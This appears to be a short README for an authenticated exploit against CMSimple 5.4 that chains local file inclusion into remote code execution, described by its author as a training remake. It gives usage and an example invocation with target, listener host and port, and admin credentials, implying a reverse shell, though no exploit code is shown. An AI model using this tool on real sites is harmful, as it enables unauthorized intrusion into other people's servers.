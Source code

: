 # CMSimple-5.4-LFI --> RCE (Authenticated)

Note : This is a remake made by me for training purposes the original is from S1lver

Usage : main.py <RHOST> <LHOST> <LPORT> <USER> <PASS>

Example : main.py https://target.com 192.168.1.15 1337 admin password
